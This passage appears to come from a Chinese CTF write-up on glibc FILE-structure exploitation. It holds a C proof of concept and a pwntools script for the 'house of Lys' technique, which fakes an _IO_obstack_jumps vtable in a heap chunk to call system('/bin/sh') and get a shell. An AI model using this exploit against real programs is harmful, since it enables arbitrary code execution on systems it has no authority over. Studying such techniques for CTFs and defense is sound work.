 ```py
```
测试时所使用的libc版本：2.35

以上做法均通过完全修改stderr实现RCE，事实上只劫持`_IO_list_all`也可以达到同样的效果。比如接下来介绍的[house of Lys](https://www.cnblogs.com/7resp4ss/p/17486261.html)

利用前提：
- 已知程序libc基地址
- 可完全控制一个堆块并知晓其地址；能操控程序往指定地址写入该堆块的地址

将上方示例脚本由`------------change------------`包裹的代码更换为以下内容，即为house of Lys的poc：
```c
#define writeend_offset 0x30
#define writeptr_offset 0x28
#define vtable_offset 0xd8
#define next_free_offset 0x18 
#define chunk_limit_offset 0x20
#define caller_offset 0x38
#define caller_arg_offset 0x48
#define use_arg_offset 0x50
#define fake_obstack_offset 0xe0
void fake()
{
    size_t libc_base = &puts - 0x788a0;
    size_t _IO_obstack_jumps_prt = libc_base + 0x1ef320;
    void *ptr;
    ptr=malloc(0x200);
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writeend_offset)=0x0;
    *(long long*)((long long)ptr+next_free_offset)=0x1;
    *(long long*)((long long)ptr+chunk_limit_offset)=0x0;
    *(long long*)((long long)ptr+use_arg_offset)=0x1;
    *(long long*)((long long)ptr+fake_obstack_offset)=(long long*)ptr;
    *(long long*)((long long)ptr+vtable_offset)=(long long*)(_IO_obstack_jumps_prt+0x20);
    *(long long*)((long long)ptr+caller_offset)=(long long*)(&system); //Here controls rip
    *(long long*)((long long)ptr+caller_arg_offset)=(long long*)(libc_base+1767045); //Here controls rdi, set it to the address of /bin/sh in libc
    printf("fake ptr: %p\n", ptr);
}
```
```py
ptr = int(rcu('ptr: ','\n'),16)
libc.address = int(rcu('leak: ','\n'),16)-libc.sym['_IO_2_1_stdout_']
write(libc.sym['_IO_2_1_stderr_']+104,p64(ptr))
sla('choice> ', '2')
p.interactive()
```
测试时所使用的libc版本：2.34

在libc 2.37中，移除了house of Lys里所使用的`_IO_obstack_jumps` vtable。于是便有了变种：[house_of_snake](https://www.cnblogs.com/7resp4ss/p/17300224.html)

利用前提：
- 已知程序libc基地址
- 可完全控制一个堆块并知晓其地址；能操控程序往`_IO_list_all`写入该堆块的地址
